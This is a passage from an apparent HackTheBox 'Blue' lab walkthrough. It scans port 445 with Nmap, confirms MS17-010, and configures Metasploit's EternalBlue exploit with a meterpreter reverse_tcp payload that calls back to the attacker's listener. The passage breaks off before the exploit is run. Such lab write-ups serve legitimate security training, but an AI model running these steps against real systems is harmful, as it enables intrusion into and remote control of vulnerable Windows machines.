 List Nmap NSE script categories:

```bash
locate .nse | xargs grep "categories" | grep -oP '".*?"' | sort -u
```

![nsa_files](GitHubv2/HackTheBox/EASY/Blue/screenshots/nsa_files.png)

From the output, the most relevant categories for vulnerability detection are **vuln** and **safe**.

Run Nmap with vulnerability detection scripts against port 445:

```bash
nmap --script "vuln and safe" -p445 10.10.10.40 -oN smbVulnScan
```

![nmap_vuln_safe](GitHubv2/HackTheBox/EASY/Blue/screenshots/nmap_vuln&safe.png)

**Result:**  
The scan confirms the target is vulnerable to **MS17-010**.

---
## 3. Exploitation

Given the confirmed EternalBlue vulnerability, we can exploit it directly using **Metasploit**.

### 3.1 Launching Metasploit

```bash
msfconsole
```

![msfconsole](GitHubv2/HackTheBox/EASY/Blue/screenshots/msfconsole.png)

Search for the MS17-010 EternalBlue module:

```bash
search ms17_010
```

![search_ms17010](GitHubv2/HackTheBox/EASY/Blue/screenshots/search_ms17010.png)

---
### 3.2 Configuring the Exploit

Set target parameters:

```bash
set RHOSTS 10.10.10.40
set LHOST 10.10.15.20
set LPORT 4444
set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

Select the EternalBlue module:
